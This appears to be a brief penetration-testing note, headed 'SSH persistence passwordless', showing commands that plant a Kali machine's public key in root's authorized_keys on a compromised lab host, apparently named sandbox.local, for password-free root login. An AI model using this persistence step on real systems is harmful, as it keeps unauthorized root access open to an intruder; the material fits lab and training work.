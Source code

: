 # SSH persistence passwordless

```text
kali@kali:~$ ssh-keygen

kali@kali:~$ cat:~/.ssh/id_rsa.pub
```

in the target shell type:

```text
mkdir /root/.ssh
echo “rsa public key from kali machine” > /root/.ssh/authorized_keys
```

now login without password:

```text
kali@kali:~$ ssh root@sandbox.local
```

